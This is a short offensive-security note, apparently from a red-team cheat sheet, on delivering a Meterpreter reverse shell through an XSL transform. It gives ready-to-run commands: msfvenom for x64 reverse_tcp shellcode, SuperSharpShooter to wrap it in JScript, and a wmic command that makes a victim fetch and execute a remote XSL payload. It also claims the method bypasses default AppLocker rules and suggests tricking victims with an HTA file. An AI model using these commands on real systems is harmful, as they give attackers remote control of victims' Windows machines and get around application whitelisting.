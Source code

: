 # XSL Transform

Can be combined with JScript code (SuperSharpShooter) to get a meterpreter shell.

> [!CAUTION]
> Bypasses default AppLocker Rules.
> We can use 64bit shellcode.

### Create shellcode:
- `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 -f raw -o output/shell.txt`

### Create JScript using SuperSharpShooter:

`python3 SuperSharpShooter.py --payload js --dotnetver 4 --stageless --rawscfile shell.txt --output test`

### Execution

1. Option one: Embed the JS content to the XSL template, and on victim, run: `wmic process get /format:"http://192.168.0.1/test.xsl"`

2. Option two: use the HTA template to trick the victim to execute the XSL payload.
